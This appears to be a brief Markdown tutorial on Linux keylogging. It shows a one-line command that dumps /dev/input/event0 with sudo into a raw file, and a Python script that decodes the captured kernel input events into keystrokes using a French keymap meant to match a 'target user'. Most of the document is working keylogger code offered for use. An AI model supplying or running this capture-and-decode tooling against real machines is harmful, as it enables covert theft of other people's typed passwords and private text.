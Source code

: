 ### Get access to `/dev/input/`

Since the directory is protected by default from unprivileged users, an alternative to reading event devices directly would be to use an appropriate user space API instead. 

For example, to read the keyboard, one would use ncurses, while GPM would be used to read the mouse input.

### Logging 

Let's imagine that the keyboard input stream is managed by the `event0` file. We could develop a simple keylogger as follows :

`$ sudo cat /dev/input/event0 > /tmp/keylogger.raw`

### Decoding 

Using the format of the input stream and knowing the target user keymapping we can use this python script to properly decode the input data stream : 

```python
#!/usr/bin/python3
import struct

# Mapping FR, change it accordingly to target keymap (DK, DE, US, etc.)

mapping = {16:'a', 17:'z', 18:'e', 19:'r', 20:'t', 21:'y', 22:'u', 23:'i', 24:'o', 25:'p', 30:'q', 31:'s', 32:'d',
        33:'f', 34:'g', 35:'h', 36:'j', 37:'k', 38:'l', 39:'m', 44:'w', 45:'x', 46:'c', 47:'v', 48:'b', 49:'n',
        2:'&', 3:'é', 4:'"', 5:'\'', 6:'(', 7:'-', 8:'è', 9:'_', 10:'ç', 11:'à', 12:')', 13:'=', 27:'$', 40:'ù',
        43:'*', 50:',', 51:';', 52:':', 53:'!', 35:'h', 28:'\n', 42:'<SHIFT>', 54:'<SHIFT>', 29:'<CTRL>',
        56:'<ALT>', 100:'<AltGr>', 97:'<CTRL>', 82:'0', 79:'1', 80:'2', 81:'3', 75:'4', 76:'5', 77:'6', 71:'7',
        72:'8', 73:'9', 57:' ', 86:'<', 14:'<BACKSPACE>', 15:'    ', 59:'<F1>', 60:'<F2>', 61:'<F3>', 62:'<F4>',
        63:'<F5>', 64:'<F6>', 65:'<F7>', 66:'<F8>', 67:'<F9>', 74:'-', 83:'.', 96:'\n<ENTER>', 26:'^', 1:'<ESC>',
        78:'+', 103:'<UP>'}

"""
FORMAT represents the format used by linux kernel input event struct
See https://github.com/torvalds/linux/blob/v5.5-rc5/include/uapi/linux/input.h#L28
Stands for: long int, long int, unsigned short, unsigned short, unsigned int
"""

FORMAT = 'llHHI'
EVENT_SIZE = struct.calcsize(FORMAT)

print("============== RAW ===============")
output = []
with open("/tmp/keylogger.raw", "rb") as f:
    event = f.read(EVENT_SIZE)
    while event:
        (tv_sec, tv_usec, type, code, value) = struct.unpack(FORMAT, event)
        k = ""
        if type == 1 and value != 0:
            output.append(mapping[code])
            k = mapping[code]
        print ("%s\t%s\t%s\t%s\t%s\t%s" % (tv_sec, tv_usec, type, code, value, k))

        event = f.read(EVENT_SIZE)

```